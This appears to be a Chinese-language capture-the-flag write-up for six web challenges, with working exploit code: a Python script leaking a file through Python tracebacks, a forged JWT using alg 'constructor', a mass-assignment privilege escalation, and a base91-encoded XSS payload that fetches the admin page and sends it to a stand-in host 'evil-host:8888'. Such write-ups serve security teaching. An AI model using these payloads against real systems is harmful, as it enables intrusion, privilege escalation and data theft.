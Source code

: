 ## 封神台wp

### EzEcho

bun 内部shell的解析bug

先创建文件并将内容写入sh脚本里面，然后再执行sh

好像是`1` 被当作触发重定向的标识，没有写入，作为文本内容。

```
/readflag1<huaji

`sh<huaji`
```

flag{rce_eas1y_th3n_i_think}

参考https://blog.csdn.net/2401_83799022/article/details/141859729



### EzPyeditor

因为 `traceback.format_exc()` 会把 **异常栈的文件路径和代码上下文** 返回给前端，如果我们把 `filename` 指向 `secret.py`，并且让 `source` 是空的（触发解析报错），那么 traceback 会尝试 **从这个文件加载源码行内容**，从而把 `secret.py` 里的 flag 泄露出来。



可以用 `source` 构造一个在指定行触发错误的假代码，让 traceback 去那一行读取内容：

```
{
    "source": "\n\n\n\nx y",  
    "filename": "secret.py"
}
```



所以exp如下：

```python
import requests
import re

url = "http://rc0uy94d.lab.aqlab.cn/check"   # 改成你的靶场地址
target_file = "secret.py"

def read_line(line_num):
    # 构造 source，让错误出现在指定行
    payload = {
        "source": "\n" * (line_num - 1) + "x y",  # x y 触发语法错误
        "filename": target_file
    }
    r = requests.post(url, json=payload)
    data = r.json()
    if not data["status"] and data["error"]:
        # 从 traceback 中提取对应行
        match = re.search(rf'File "{re.escape(target_file)}", line {line_num}\n\s*(.*)\n', data["error"])
        if match:
            return match.group(1)
    return None

def dump_file(max_lines=100):
    print(f"[*] Dumping {target_file} ...")
    for i in range(1, max_lines+1):
        line = read_line(i)
        if line is None:
            break
        print(f"{i:03d}: {line}")

if __name__ == "__main__":
    dump_file()
#flag{y0ur_1re_pyc0de_master!}
```



### EzGrades

创建用户时，加上is_teacher=true即可

![image-20250810213755826](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849235.png)

然后再访问/grades_flag就有flag了，其中cookie是`auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoiaHVhamkiLCJzdHVfZW1haWwiOiJodWFqaUBodWFqaS5jb20iLCJwYXNzd29yZCI6IjEiLCJpc190ZWFjaGVyIjoidHJ1ZSJ9.4bhDOIr-X_u68snoXl5pwMG-v0HGMXyi7nzAXp62GrY`

flag{g00d_go0d_study_d1yd1yup}

### EzGetFlag

使用 两个字段：

第一个 给 Flask 看，第二个给 PHP 看

因为php会被变量绕过，flask接收了第一个，php相当于接收的第二个

![image-20250810214427451](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849236.png)



# EzJwt Wp

```js
const algorithms = {
	hs256: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha256', secret).update(data).digest()),
	hs512: (data, secret) => 
		base64UrlEncode(crypto.createHmac('sha512', secret).update(data).digest()),
}
const createSignature = (header, payload, secret) => {
	const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
	const signature = algorithms[header.alg.toLowerCase()](data, secret);
	return signature;
}

const verify = (token, secret) => {
	const { header, payload, signature: expected_signature } = parseToken(token);
	const calculated_signature = createSignature(header, payload, secret);
	
	const calculated_buf = Buffer.from(calculated_signature, 'base64');
  console.log(calculated_buf)
  console.log(calculated_buf.toString('base64'))
	const expected_buf = Buffer.from(expected_signature, 'base64');
  console.log(expected_buf)

	if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
		throw Error('Invalid signature');
	}

	return payload;
}
```

代码审计，发现后端在校验 JWT 时没有制定加密算法，于是想到可以手动指定 alg 标签来使得后端不使用那两种加密算法来进行验证，但是问题是 `algorithms` 只有两个元素，我们可以通过 JS 的特性找到一个 `Object` 或者 `{}` 对象本来就具有的函数，经过测试，我选择使用 `constructor()`，直接调用这个函数：

```js
  > let a = {}
... a['constructor']("123","456")
String {'123'}
```

经过测试，发现思路可行后，就直接修改本地代码获得签名之后的 base64。

![image-20250810231109801](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849237.png)

修改后：

```text
ewogICJhbGciOiAiY29uc3RydWN0b3IiLAogICJ0eXAiOiAiSldUIgp9.ewogICJpc0FkbWluIjogdHJ1ZQp9.eyJhbGciOiJjb25zdHJ1Y3RvciIsInR5cCI6IkpXVCJ9eyJpc0FkbWluIjp0cnVlfQ
```

使用这个 cookie 去访问网站，拿到 cookie：

![image-20250810230839382](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849238.png)

flag 为：

```text
flag{jwt_i_w0nt_see_you!:(}
```



### EzBase Wp

代码审计，发现题目会将用户上传的数据进行 base91 编码，然后显示出来，于是逆向思维，让编码后的文本为 xss payload，再 decode，就能拿到应该上传的数据。

#### exp

```py
import based91

res = based91.decode("<iframe/src=\"javascript%3Afetch%28%27%2F%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28s%3D%3E%7Bnew%20Image%28%29%2Esrc%3D%60http%3A%2F%2Fevil%2Dhost%3A8888%2Fget%5Fcookie%3Fcookie%3D%24%7BencodeURIComponent%28s%2Esubstring%280%2C2000%29%29%7D%60%7D%29%2Ecatch%28console%2Eerror%29%3B\">link</iframe>abc");

print(res.hex())

print(based91.encode(res))

```

iframe 中的 js 使用的 url 编码，同时 iframe 和 src 之间使用 `/` 隔开以避免使用空格，原始 js 代码为：

```js
javascript:fetch('/').then(r=>r.text()).then(s=>{new Image().src=`http://evil-host:8888/get_cookie?cookie=${encodeURIComponent(s.substring(0,2000))}`}).catch(console.error);
```

 执行脚本：

![image-20250810232114525](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849239.png)

在页面上传：

![image-20250810232225908](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849240.png)

然后让 bot 访问这个页面：

![image-20250810232258302](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849242.png)

服务器拿到管理员首页页面源代码：

![image-20250810232357014](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849243.png)

访问 flag 所在 encoding，拿到 flag：

![image-20250810232917139](https://cdn.jsdelivr.net/gh/CTF-USTB/Panic404-wp-images/images/20251005192849244.png)







